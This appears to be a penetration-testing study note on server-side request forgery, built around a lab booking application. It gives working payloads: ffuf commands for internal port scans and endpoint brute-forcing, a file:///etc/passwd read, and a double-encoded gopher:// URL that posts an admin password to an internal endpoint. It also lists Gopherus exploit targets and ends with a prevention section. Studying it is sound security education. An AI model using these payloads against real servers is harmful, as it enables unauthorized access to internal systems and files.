- [Server-Side Request Forgery (SSRF)](#server-side-request-forgery-ssrf)
  - [Identifying SSRF](#identifying-ssrf)
  - [System Enumeration](#system-enumeration)
  - [Accessing Restricted Endpoints](#accessing-restricted-endpoints)
  - [LFI](#lfi)
  - [gopher Protocol](#gopher-protocol)
    - [Gopherus](#gopherus)
  - [Blind SSRF](#blind-ssrf)
    - [Identifying Blind SSRF](#identifying-blind-ssrf)
    - [Exploiting Blind SSRF](#exploiting-blind-ssrf)
  - [Prevention](#prevention)

---

# Server-Side Request Forgery (SSRF)

... is a vulnerability where an attacker can manipulate a web application into sending unauthorized requests from the server. This vuln often occurs when an application makes HTTP requests to other servers based on user input. Successful exploitation of SSRF can enable an attacker to access internal systems, bypass firewalls, and retrieve sensitive information.

Suppose a web server fetches remote resources based on user input. In that case, an attacker might be able to coerce the server into making requests to arbitrary URLs supplied by the attacker, the web server is vulnerable to SSRF.

Furthermore, if the web application relies on a user-supplied URL scheme or protocol, an attacker might be able to cause even further undesired behavior by manipulating the URL scheme. The following URL schemes are commonly used in the exploitation of SSRF vulnerabilities.

| Scheme | Description |
| ------ | ----------- |
| ```http://``` _and_ ```https://``` | these URL schemes fetch content via HTTP/S requests<br>an attacker might use this in the exploitation of SSRF vulnerabilities to bypass WAFs, access restricted endpoints, or access endpoints in the internal network |
| ```file://``` | this URL scheme reads a file from the local file system<br>an attacker might use this in the exploitation of SSRF vulnerabilities to read local files on the web server (LFI) |
| ```gopher://``` | this protocol can send arbitrary bytes to the specified address<br>an attacker might use this in the exploitation of SSRF vulnerabilities to send HTTP POST requests with arbitrary payloads or communicate with other services such as SMTP or databases |

## Identifying SSRF



In Burp:



The request contains the chosen date and a URL in the parameter ```dateserver```. This indicates that the web server fetches the availibility information from a separate system determined by the URL passed in this POST parameter.

To confirm:



And:

```bash
d41y@htb[/htb]$ nc -lnvp 8000

listening on [any] 8000 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 38782
GET /ssrf HTTP/1.1
Host: 172.17.0.1:8000
Accept: */*
```

Now, to determine whether the HTTP response reflects the SSRF response to you, point the web application to itself by providing ```http://127.0.0.1/index.php```:



Since the response contains the web application's HTML code, the SSRF vuln is not blind.

## System Enumeration

You can use the SSRF vulnerability to conduct a port scan of the system to enumerate running services. To achieve this, you need to be able to infer whether a port is open or not from the response to your SSRF payload.



This enables you to conduct an internal port scan of the web server through the SSRF vulnerability. You can do this using a fuzzer like ```ffuf```.

```bash
d41y@htb[/htb]$ ffuf -w ./ports.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"

<SNIP>

[Status: 200, Size: 45, Words: 7, Lines: 1, Duration: 0ms]
    * FUZZ: 3306
[Status: 200, Size: 8285, Words: 2151, Lines: 158, Duration: 338ms]
    * FUZZ: 80
```

## Accessing Restricted Endpoints

You can access and enumerate the domain through the SSRF vulnerability. For instance, you can conduct a directory brute-force attack to enumerate additional endpoints using ```ffuf```.



You can see, the web server respons with the default Apache 404 response. To also filter out any HTTP 403 responses, you will filter your results based on the string ```Server at dataserver.htb Port 80```, which is contained in default Apache error pages. Since the web application runs PHP, you can specify the ```.php``` extension.

```bash
d41y@htb[/htb]$ ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80"

<SNIP>

[Status: 200, Size: 361, Words: 55, Lines: 16, Duration: 3872ms]
    * FUZZ: admin
[Status: 200, Size: 11, Words: 1, Lines: 1, Duration: 6ms]
    * FUZZ: availability
```

## LFI

You can manipulate the URL scheme to provoke further unexpected behavior. Since the URL scheme is part of the URL supplied to the web application, you can attempt to read local files from the file system using the ```file://``` URL scheme. You can achieve this by supplying the URL ```file:///etc/passwd```.



## gopher Protocol

You can use SSRF to access restricted internal endpoints. However, you are restricted to GET requests as there is no way to send a POST request with the ```http://``` URL scheme. For instance, consider a different version of the previous web application. Assuming you identified the internal endpoint ```admin.php``` just like before, however, this time the response looks like this:



You can see that the admin endpoint is password protected by a login prompt. From the HTML form, you can deduce that you need to send a POST request to ```/admin.php``` containing the password in the ```adminpw``` POST parameter. However, there is no way to send this POST request using the ```http://``` URL scheme.

Instead, you can use the gopher URL scheme to send arbitrary bytes to a TCP socket. This protocol enables you to create a POST request by building the HTTP request yourself.

Example:

```bash
POST /admin.php HTTP/1.1
Host: dateserver.htb
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

adminpw=admin
```

You need to URL-encode all special characters to construct a valid gopher URL from this. In particular spaces and newlines must be URL-encoded. Afterward, you need to prefix the data with the gopher URL scheme, the target host and port, and an underscore, resulting in the following gopher URL:

```bash
gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin
```

Your specified bytes are sent to the target when the web application processes this URL. Since you carefully chose the bytes to represent a valid POST request, the internal web server accepts your POST request and responds accordingly. However, since you are sending your URL within the HTTP POST parameter ```dateserver```, which itself is URL-encoded, you nee to URL-encode the entire URL again to ensure the correct format of the URL after the web sever accepts it. Otherwise, you will get a malformed URL error. After URL encoding the entire gopher URL one more time, you can finally send the following request:

```bash
POST /index.php HTTP/1.1
Host: 172.17.0.2
Content-Length: 265
Content-Type: application/x-www-form-urlencoded

dateserver=gopher%3a//dateserver.htb%3a80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3a%2520dateserver.htb%250D%250AContent-Length%3a%252013%250D%250AContent-Type%3a%2520application/x-www-form-urlencoded%250D%250A%250D%250Aadminpw%253Dadmin&date=2024-01-01
```

... results in:



The internal admin endpoint accepts the provided password, and you can access the admin dashboard.

You can use the gopher protocol to interact with many internal services, not just HTTP servers. Imagine a scenario where you identify, through an SSRF vuln, that TCP port 25 is open locally. This is the standard port for SMTP servers. You can use Gopher to interact with this internal SMTP server as well.

### Gopherus

Constructing syntactically and semantically correct gopher URLs can take timea and effort. Tools like Gopherus can help generate gopher URLs.

```bash
d41y@htb[/htb]$ python2.7 gopherus.py

  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

                author: $_SpyD3r_$

usage: gopherus.py [-h] [--exploit EXPLOIT]

optional arguments:
  -h, --help         show this help message and exit
  --exploit EXPLOIT  mysql, postgresql, fastcgi, redis, smtp, zabbix,
                     pymemcache, rbmemcache, phpmemcache, dmpmemcache
```

## Blind SSRF

Instances in which the response is not directly displayed to you are called blind SSRF vulnerabilities.

### Identifying Blind SSRF

This time, the response looks different:



The response does not contain the HTML response of the coerced request; instead, it simply tells you that the date is unvailable

### Exploiting Blind SSRF

... is generally severely limited compared to non-blind SSRF vulns. However, depending on the web app's behavior, you might still be able to conduct a (restricted) local port scan of the system, provided the response differs for open and closed ports. In this case, the web app respons with ```Something went wrong``` for closed ports.

Compare this:



... to:



Furthermore, while you cannot read **local files** on the system, you can use the same technique to identify existing files on the filesystem. That is because the error message is different for existing and non-existing files, just like it differs for open and closed ports.

## Prevention

Mitigations and countermeasures against SSRF vulns can be implemented at the web app or network layers. If the web app fetches data from a remote host based on user input, proper security measures to prevent SSRF scenarios are crucial.

The remote origin data is fetched from should be checked against a whitelist to prevent an attacker from coercing the server to make requests against arbitrary origins. A whitelist prevents an attacker from making unintended requests to internal systems. Additionally, the URL scheme and protocol used in the request need to be restricted to prevent attackers from supplying arbitrary protocols. Instead, it should be hardcoded or checked against a whitelist. As with any user input, input sanitization can help prevent unexpected behavior that may lead to SSRF vulns.

On the network layer, appropriate firewall rules can prevent outgoing requests to unexpected remote systems. If properly implemented, a restricting firewall config can mitigate SSRF vulns in the web app by dropping any outgoing requests to potentially interesting target systems. Additionally, network segmentation can prevent attackers from exploiting SSRF vulns to access internal systems.